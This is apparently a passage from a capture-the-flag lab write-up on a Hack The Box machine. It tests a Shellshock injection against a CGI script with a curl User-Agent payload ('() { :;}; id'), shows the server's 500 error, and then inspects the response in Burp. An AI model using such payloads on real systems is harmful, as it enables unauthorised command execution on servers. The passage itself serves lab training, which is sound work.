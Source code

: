## Gaining Access

Let's test this manually to verify the code execution, as the nmap script got a 500 server error response from the target.

We'll use the following curl command to test:

> \-A --> add the text in the coment fields as a header in the request

```
└─$ curl -A '() { :;}; id' http://10.10.10.56/cgi-bin/user.sh
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>500 Internal Server Error</title>
</head><body>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error or
misconfiguration and was unable to complete
your request.</p>
<p>Please contact the server administrator at 
 webmaster@localhost to inform them of the time this error occurred,
 and the actions you performed just before this error.</p>
<p>More information about this error may be available
in the server error log.</p>
<hr>
<address>Apache/2.4.18 (Ubuntu) Server at 10.10.10.56 Port 80</address>
</body></html>

```

We get the same 500 server error. To see what is happening here, we'll send the requests through BURP. Let's visit the page at [http://10.10.10.56/cgi-bin/user.sh](http://10.10.10.56/cgi-bin/user.sh) in a browser configured to use BURP as a proxy. We are prompted to open or save a file, so let's save it. Next, let's find the request in BURP and send it to repeater, and click Go.

![](<../../.gitbook/assets/2 (3) (1).JPG>)

In the repsonse, we can see that the "Content-Type" header is "text/x-sh". A google search for this finds the following page, which confirms that the header type should be "application/sh" for a bash script, as shown below:

{% embed url="https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/MIME_types/Common_types" %}

